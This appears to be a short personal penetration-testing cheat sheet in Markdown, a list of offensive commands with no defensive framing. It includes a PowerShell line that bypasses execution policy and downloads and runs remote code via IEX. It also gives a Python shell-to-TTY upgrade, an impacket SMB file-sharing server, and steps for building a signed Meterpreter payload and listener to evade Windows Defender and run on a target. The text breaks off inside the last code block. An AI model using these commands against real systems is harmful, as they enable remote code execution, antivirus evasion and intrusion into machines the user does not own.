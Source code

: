 # Notes
## PowerShell
### To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
## Utils
## Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
## Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share <path> -smb2support
```
## PrivEsc on Windows
### Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them.
**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target

